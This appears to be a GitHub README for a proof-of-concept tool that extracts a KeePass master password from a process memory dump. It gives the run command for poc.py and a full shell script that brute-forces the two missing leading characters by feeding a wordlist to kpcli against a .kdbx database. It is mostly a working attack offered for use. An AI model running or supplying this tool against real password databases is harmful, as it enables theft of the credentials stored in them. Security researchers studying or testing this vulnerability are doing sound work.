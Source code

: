 # keepass-dump-masterkey

## Usage

`python3 poc.py <PathToDmp>`

## Preview

![](/img/preview.png)

As a reminder, the first character cannot be found in the dump, and for the second the script will only give you a few possibilities, in any case we recommend you to run the bruteforce on 2 chars with the script below 

```bash
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2

```


>This script works very well in the case of a physical machine, for virtual machines it does not seem stable

Btw : the python script present in this project follows the reading of the following project: https://github.com/vdohney/keepass-password-dumper
